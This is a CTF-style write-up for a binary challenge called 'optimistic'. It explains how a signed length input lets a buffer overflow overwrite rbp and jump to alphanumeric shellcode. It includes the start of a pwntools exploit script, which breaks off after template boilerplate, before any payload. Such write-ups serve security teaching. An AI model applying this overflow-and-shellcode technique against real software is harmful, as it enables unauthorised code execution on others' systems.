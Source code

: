 ## Exploitation

The bug lies in the input for `Name Length`, which has been type-cast to a signed integer type variable, which allows for negative numbers to be used as input. Due to the way signed integers are stored in memory using "[two's complement](https://en.wikipedia.org/wiki/Two%27s_complement)", the negative number then becomes a much larger number when cast back to an *unsigned* integer in the input for `Name`. This allows for more data to be read into the buffer for `Name` than the 96 assigned bytes, allowing for a buffer overflow which can be exploited to overwrite the `rbp` register. The contents of `rbp` can then be replaced with the address of the `Name` buffer which now holds our payload, and allowing for any input shellcode to be executed. 

To retrieve the flag for this challenge, shellcode would be needed as part of the payload. However, a function near the bottom, `isalpha`, appears to be checking the input for `Name` for alphabetical and numeric characters, respectively. Therefore an alphanumeric shellcode will be needed for the payload. Thankfully, some such shellcodes have already been created and shared by the cyber community.


**Python pwntools exploit:**
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 300.300.300.300 --port 1234 ./optimistic
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./optimistic')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '300.300.300.300'
port = int(args.PORT or 1234)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
break isalpha
```